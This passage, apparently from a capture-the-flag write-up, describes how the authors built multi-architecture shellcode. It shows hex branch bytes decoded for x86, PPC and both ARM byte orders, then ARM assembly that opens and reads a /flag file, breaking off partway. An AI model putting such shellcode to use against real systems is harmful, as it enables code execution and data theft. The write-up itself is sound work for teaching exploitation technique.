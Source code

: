 In the end, we needed to devise shellcode to work on Linux on x86, ARMEL (little-endian), ARMEB (big-endian), and PPC. The strategy we used was to assemble a series of jumps so that each architecture would take a different jump to its own shellcode. In other instruction encodings, they must be legal, not alter control flow, and not cause illegal memory accesses. However, we don't need to worry about instructions after each jump for a given architecture. 

          o
         / \
        /\ x86
      PPC \
          /\
     ARMEL  ARMEB
    
x86's variable width instructions caused the greatest trouble. In particular, the middle two bytes of the PPC branch instructions of the form `48 00 XX XX` were interpreted in x86 as arithmetic with a register dereference. Since all GPRs were zero, this caused a segmentation fault on x86. So, we put the x86 jump in front followed by the remainder of the jumps. 

The branch part of our shellcode was:

           73 12 00 00 | 48 00 01 70 | 9a 00 00 40 | 13 00 00 ea
    x86    jmp 0x14    | <bypassed>  | <bypassed>  | <bypassed>
    PPC    andi  ...   | b 0x174     | <bypassed>  | <bypassed>
    ARMEB  tstvc ...   | stmdami ... | bls 0x110   | <bypassed>
    ARMEL  andeq ...   | andvc   ... | mulmi ...   | b 0x60

Graphically:

             X
            / \
    1      X  jmp
          / \   \
    2    X   b   x86
        / \   \
    3  X   bls PPC 
        \   \
    4    b   ARMEB
          \
           ARMEL

Then, we placed shellcode for x86 at 0x14, ARMEL shellcode at 0x60, ARMEB shellcode at 0x110, and PPC shellcode at 0x174. The x86 shellcode we used is described above. 

Our custom shellcode opened `/flag`, read it into the BSS section, wrote it to stdout, then exited. We used the same shellcode source for ARMEL and ARMEB:

    shellcode:
        add r0, pc, #(filename-shellcode-8)

        mov r7, #5
        mov r1, #0
        svc #0
        mov r0, a1

        mov r7, #3
        mov r3, #0x16000
        mov r1, r3
        mov r2, #4096
        svc #0
        mov r2, a1
